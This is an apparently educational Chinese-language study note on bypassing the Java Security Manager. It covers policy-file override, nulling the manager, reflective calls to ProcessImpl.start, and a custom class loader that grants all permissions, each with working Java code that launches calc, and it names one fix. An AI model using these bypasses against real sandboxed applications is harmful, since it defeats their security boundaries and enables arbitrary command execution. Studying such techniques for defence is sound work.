


# Security-Manager-Bypass

## 前言

简单学习一下，因为还没有遇到过。

## 介绍

使用`-Djava.security.manager`即可开启SM，也可以通过这样的方式：

```java
        SecurityManager securityManager = new SecurityManager();
        System.setSecurityManager(securityManager);
```

不过不推荐这样。


## 单等号+home目录绕过SM

默认的2个policy：

```
# The default is to have a single system-wide policy file,
# and a policy file in the user's home directory.
policy.url.1=file:${java.home}/lib/security/java.policy
policy.url.2=file:${user.home}/.java.policy
```

使用`-Djava.security.policy`的时候，如果只用了1个等号这时候指定的java.policy的优先级低于上面的2个默认policy，如果user home目录可写的话，可以以直接往user.home里面写.java.policy来实现覆盖。

存在SM：



user.home写入.java.policy：

```
grant {
    permission java.io.FilePermission "<<ALL FILES>>" ,"execute";
};
```

绕过SM：



### 修复方式

使用`-Djava.security.policy==java.policy`而不是一个等于号。


## setSecurityManager绕过SM

如果sm给了`setSecurityManager`的权限，可以通过将`sm`置为null来绕过。

如这样的java.policy：

```java
grant {
    permission java.lang.RuntimePermission "setSecurityManager";
};
```

绕过：

```java
System.setSecurityManager
```


## 反射绕过SM

如这种情况：

```java
    public Process start() throws IOException {
        //省略部分代码

        SecurityManager security = System.getSecurityManager();
        if (security != null)
            security.checkExec(prog);
        //在这里检查了是否有执行命令的权限

        //省略部分代码
        try {
            return ProcessImpl.start(cmdarray,
                                     environment,
                                     dir,
                                     redirects,
                                     redirectErrorStream);
        }
        //最后调用ProcessImpl.start实现这个功能。
        //省略部分代码
    }
```

在`public`的`start`方法中进行SM的检查，之后调用了`ProcessImpl.start`，但是`ProcessImpl.start`里面并没有SM的检查，可以通过反射直接调用`ProcessImpl.start`（必须在能`accessDeclaredMembers`等的情况下）。

```java
        Class clz = Class.forName("java.lang.ProcessImpl");
        Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        method.invoke(clz,new String[]{"calc"},null,null,null,false);
```


## 创建类加载器绕过SM

在于之前提到的：

> AccessController还提供了doPrivilege方法，当这个方法被调用时，AccessController亦会自顶向下遍历当前栈，不过只会遍历到调用doPrivileged方法的栈帧就会停止。例如Main.main调用Class1.fun1()，Class1.fun1()调用了doPrivileged方法，在doPrivileged方法中进行了一些操作，AccessController的检查只会遍历到Class1.fun1()，看Class1是否有权限。
>
> doPrivileged是非常危险的，因为它截断了AccessController的检查。

以及：

> 这里调用了defineClass(null, b, off, len, null)，最后一个参数null是ProtectionDomain的值


所以因为类加载器默认加载的时候`ProtectionDomain`为null，自定义类加载器让`ProtectionDomain`是具有全部权限的即可。

```java
import java.security.AccessController;
import java.security.PrivilegedAction;

public class EvilSm {
    static{
        //在doPrivileged中执行恶意操作
        AccessController.doPrivileged(new  PrivilegedAction()  {
            @Override
            public  Object run() {
                try {
                    Runtime.getRuntime().exec("calc");
                    return null;
                }catch (Exception e){
                    e.printStackTrace();
                    return null;
                }
            }
        });

    }
}

```

```java
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;

public class MyClassLoader extends ClassLoader {
    public MyClassLoader() {
    }

    public MyClassLoader(ClassLoader parent) {
        super(parent);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        File file = getClassFile(name);
        try {
            byte[] bytes = getClassBytes(file);
            //在这里调用defineClazz，而不是super.defineClass
            Class<?> c = defineClazz(name, bytes, 0, bytes.length);
            return c;
        } catch (Exception e) {
            e.printStackTrace();
        }

        return super.findClass(name);
    }

    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        if (name.contains("Exploit")) {
            return findClass(name);
        }
        return super.loadClass(name);
    }

    protected final Class<?> defineClazz(String name, byte[] b, int off, int len) throws ClassFormatError {
        try {
            PermissionCollection pc = new Permissions();
            pc.add(new AllPermission());

            //设置ProtectionDomain
            ProtectionDomain pd = new ProtectionDomain(new CodeSource(null, (Certificate[]) null),
                    pc, this, null);
            return this.defineClass(name, b, off, len, pd);
        } catch (Exception e) {
            return null;
        }
    }

    private File getClassFile(String name) {
        File file = new File("./" + name + ".class");
        return file;
    }

    private byte[] getClassBytes(File file) throws Exception {
        FileInputStream fis = new FileInputStream(file);
        FileChannel fc = fis.getChannel();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        WritableByteChannel wbc = Channels.newChannel(baos);
        ByteBuffer by = ByteBuffer.allocate(1024);

        while (true) {
            int i = fc.read(by);
            if (i == 0 || i == -1) {
                break;
            }

            by.flip();
            wbc.write(by);
            by.clear();
        }
        fis.close();
        return baos.toByteArray();
    }
}
```

```java
        MyClassLoader myClassLoader = new MyClassLoader();
        Class clazz = Class.forName("EvilSm",true,myClassLoader);
        clazz.newInstance();
```


## 本地方法调用绕过SM

> java中native方法是由jvm执行的，不受java security manager管控。因此，我们可以调用java native方法，绕过java security manager。

具体参考文章。


## 参考文章

https://www.anquanke.com/post/id/151398